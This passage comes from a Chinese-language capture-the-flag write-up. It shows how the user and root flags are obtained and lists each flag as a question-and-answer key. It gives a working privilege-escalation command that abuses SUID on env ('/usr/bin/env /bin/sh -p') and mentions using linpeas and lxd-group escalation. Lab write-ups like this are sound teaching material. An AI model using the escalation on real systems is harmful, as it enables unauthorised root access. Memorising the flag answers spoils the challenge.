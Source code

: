 ```

在user目录拿到user.txt
```
ls
pics
user.txt
cat user.txt
90d6f992585815ff991e68748c414740
```
>问题5：user.txt
>答案：90d6f992585815ff991e68748c414740

# 提权
把linpeas传到靶机，枚举靶机的提权漏洞，发现一个可以提权的SUID：```env```
利用env提权，拿到root.txt

```
/usr/bin/env /bin/sh -p
whoami
root
cat /root/root.txt
4d930091c31a622a7ed10f27999af363

```

>问题6：root.txt
>答案：4d930091c31a622a7ed10f27999af363


另外，shell用户本身在lxd组用户，关于lxd组用户提权，我在[这台靶机](https://www.jianshu.com/p/d23ae6bba086)里有详细记录，这里不再演示。



